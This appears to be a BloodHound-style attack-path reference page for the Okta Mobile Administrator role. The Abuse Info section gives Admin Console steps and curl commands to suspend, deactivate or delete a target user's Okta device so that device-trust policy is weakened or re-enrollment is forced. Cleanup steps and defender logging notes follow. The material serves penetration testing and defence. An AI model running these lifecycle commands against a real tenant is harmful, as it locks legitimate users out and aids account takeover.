

## General Information

The traversable Okta_MobileAdmin edges represent Mobile Administrator role assignments. Mobile Administrators can manage mobile device settings and configurations within their assigned scope.



## Abuse Info

An attacker who controls the source principal can manage the destination device's Okta trust and lifecycle state. This does not give the attacker operating-system control of the device by itself. The impact is that the attacker can disrupt or reshape the device state Okta uses for Okta Verify, FastPass, device assurance, device-user links, and app sign-in policy decisions.

For a user source, sign in as that user. For a group source, compromise any member of the source group because group role assignments are inherited by group members. For an application source, use a valid management API token for the service app or client that has the Mobile Administrator role assignment.

Using the Admin Console:

1. Sign in to the Okta Admin Console as the source user, as a member of the source group, or with the source service application's management access.
2. Open **Directory** > **Devices** and select the destination device from the edge.
3. Review the device status, platform, management state, linked users, and whether the device is used by Okta Verify or device assurance.
4. Choose the smallest lifecycle action that supports the path:
   - Suspend an active device to temporarily pause Okta Verify access from that device.
   - Deactivate an active or suspended device to remove device-user links, deactivate enrolled Okta Verify factors on that device, and revoke desktop device certificates where applicable.
   - Delete a deactivated device when the goal is destructive removal from Universal Directory.
5. If the target application requires a registered, managed, or assured device, combine the device lifecycle change with a separate password, factor, or session path against the target user. The usual objective is to force re-enrollment or prevent the legitimate device from satisfying policy while an attacker-controlled device or weaker policy condition is used.
6. Use the resulting device-trust state to complete the downstream path, such as launching an app after satisfying a weaker rule, forcing help desk re-enrollment, or denying the legitimate user device-bound access.

Using the Okta Devices API:

1. Set the Okta org URL, a token for the source principal, the destination device ID, and the linked target user ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export DEVICE_ID="guo..."
    export TARGET_USER_ID="00u..."
    export ATTACKER_DEVICE_ID="guo_attacker..."
    ```

2. Retrieve the destination device and linked users before changing state.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID" \
      | jq '{id, status, displayName: .profile.displayName, platform: .profile.platform, registered: .profile.registered, managed: .profile.managed, lastUpdated}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID/users" \
      | jq -r '.[] | [.user.id, .user.profile.login, .managementStatus, .screenLockType] | @tsv'
    ```

3. Suspend the destination device for a temporary disruption path.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID/lifecycle/suspend"
    ```

    A successful suspension returns `204 No Content`. The device status should become `SUSPENDED`.

4. Verify the device state changed.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID" \
      | jq '{id, status, displayName: .profile.displayName, lastUpdated}'
    ```

5. If the path requires removing the device-user link or forcing re-enrollment, deactivate the device.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID/lifecycle/deactivate"
    ```

    A successful deactivation returns `204 No Content`. Deactivation is more disruptive than suspension because it removes device-user links and deactivates Okta Verify factors associated with the device.

6. Delete the device only when destructive removal is acceptable and the device is already deactivated.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID"
    ```

    A successful deletion returns `204 No Content`. Re-enrollment creates a new device record rather than restoring the deleted one.

7. If the objective is sign-in as a user from an attacker-controlled device, complete the user-authentication path separately. Mobile Administrator device lifecycle control can change the device side of the policy, but it does not provide the target user's password, session, or authenticator by itself.

## Cleanup after Abuse

Cleanup for `Okta_MobileAdmin` restores the exact device lifecycle state changed during abuse, removes attacker-controlled device records or re-enrollments, and repairs any legitimate Okta Verify, device assurance, or device-user links that were broken by suspension, deactivation, or deletion.

Cleanup using Admin Console:

1. Open **Directory** > **Devices** and select the destination device.
2. If the destination device was suspended, unsuspend it and confirm the user can use Okta Verify from that device again.
3. If the destination device was deactivated, activate it, then have legitimate users re-enroll or repair Okta Verify factors and desktop certificates as required by the tenant's device workflow.
4. If the destination device was deleted, re-enroll the legitimate device through the normal Okta Verify or device management process. The deleted Universal Directory device record cannot be restored in place.
5. Find and deactivate or delete any attacker-controlled device records enrolled during the operation.
6. Restore any mobile, sign-on, app sign-in, or device assurance policy settings changed to support the path.
7. Verify the legitimate device and linked users satisfy the expected device assurance and app sign-in policy behavior.

Cleanup using API:

1. Unsuspend the destination device if it was only suspended.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID/lifecycle/unsuspend"
    ```

    A successful request returns `204 No Content`.

2. Activate the destination device if it was deactivated and should remain trusted.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID/lifecycle/activate"
    ```

3. If an attacker-controlled device was enrolled, deactivate it and then delete it.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$ATTACKER_DEVICE_ID/lifecycle/deactivate"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$ATTACKER_DEVICE_ID"
    ```

4. Verify the legitimate device is active and that the attacker-controlled device is gone.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID" \
      | jq '{id, status, displayName: .profile.displayName, lastUpdated}'

    curl -i -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$ATTACKER_DEVICE_ID"
    ```

    If the attacker device was deleted, the verification request should return `404 Not Found`.

5. Verify the legitimate user's device links are correct.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/devices/$DEVICE_ID/users" \
      | jq -r '.[] | [.user.id, .user.profile.login, .managementStatus, .screenLockType] | @tsv'
    ```

6. If the abuse path also used the target user's session or remembered-device state, revoke sessions and remembered factors with an account that has user session management authority. Mobile Administrator device permissions alone may not be sufficient for this endpoint.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/sessions?oauthTokens=true&forgetDevices=true"
    ```

## Opsec Considerations

Device lifecycle abuse is high-signal in tenants that rely on Okta Verify, FastPass, device assurance, or managed-device policy. Relevant Okta System Log event types include `device.lifecycle.suspend`, `device.lifecycle.unsuspend`, `device.lifecycle.deactivate`, `device.lifecycle.activate`, `device.lifecycle.delete`, `device.user.add`, and `device.user.remove`.

Suspension and deactivation can also create visible user friction: Okta Verify sessions on the device may terminate, new Okta Verify sessions may fail, and deactivation can remove device-user links and deactivate factors associated with the device. Defenders should correlate device lifecycle events with `policy.evaluate_sign_on`, user sign-in failures, new device enrollments, help desk activity, and app launches from a new device or network.

## References

- [Okta mobile administrators](https://help.okta.com/en-us/content/topics/security/administrators-mobile-admin.htm)
- [Okta device lifecycle](https://help.okta.com/oie/en-us/Content/Topics/identity-engine/devices/devices-lifecycle.htm)
- [Okta Devices API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Device/)
- [Okta permissions catalog](https://developer.okta.com/docs/api/openapi/okta-management/guides/permissions/)
- [Okta User Sessions API: Revoke all user sessions](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/#tag/UserSessions/operation/revokeUserSessions)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Okta Terrify](https://github.com/CCob/okta-terrify)
